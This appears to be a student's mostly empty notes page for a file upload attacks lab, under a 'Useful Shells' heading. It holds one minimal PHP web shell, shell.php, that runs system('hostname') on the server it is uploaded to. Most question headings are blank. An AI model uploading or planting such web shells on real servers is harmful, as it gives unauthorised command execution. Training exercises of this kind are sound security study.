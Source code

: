 # Useful Links


# Useful Shells
## Question 1
shell.php
```php
<?php system('hostname'); ?>
```
## Question 2

## Question 3

## Question 4

## Question 5

## Question 6

## Question 7

## Skills Assessment - File Upload Attacks

